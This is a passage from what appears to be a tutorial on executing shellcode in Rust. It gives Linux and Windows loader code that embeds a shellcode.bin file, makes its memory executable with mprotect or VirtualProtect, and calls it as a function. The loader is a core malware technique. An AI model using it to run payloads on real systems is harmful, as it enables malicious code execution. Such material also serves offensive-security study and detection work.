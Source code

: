```
fn main() {
    let map = Box::new(SHELLCODE);

    unsafe {
        mprotect(
            map.as_ptr() as *mut c_void,
            map.len(),
            PROT_READ | PROT_EXEC,
        );

        let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map.as_ptr());
        exec_shellcode();
    }
}
```

Unfortunately, we'll be using "unsafe" code here, as we'll be using a C-interfaced function for the "mprotect" system call, as well as direct manipulation of our Box pointer.

#### Windows
To execute shellcode in a dynamic allocation on Windows, we'll use exactly the same technique as on Linux.

We're going to use the "windows" module, which will enable us to interact directly with the "VirtualProtect" function, which fulfills the same mission as the "mprotect" system call on Linux, allowing us to modify the permissions of a memory allocation we're going to make using a simple instance of Rust's "Box". The aim here is the same: to add the right to execute, which is not present by default.
```
.
├── Cargo.lock
├── Cargo.toml
└── src
 ├── main.rs
 └── shellcode.bin
```
```
# src/main.rs

use std::{ffi::c_void, mem};
use windows::Win32::System::Memory::{VirtualProtect, PAGE_EXECUTE_READ, PAGE_PROTECTION_FLAGS};

const SHELLCODE: &[u8] = include_bytes!("shellcode.bin");

fn main() {
    let map = Box::new(SHELLCODE);
    let mut old_p = PAGE_PROTECTION_FLAGS::default();

    unsafe {
        VirtualProtect(
            map.as_ptr() as *mut c_void,
            map.len(),
            PAGE_EXECUTE_READ,
            &mut old_p,
        )
        .unwrap();

        let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map.as_ptr());
        exec_shellcode();
    }
}
```
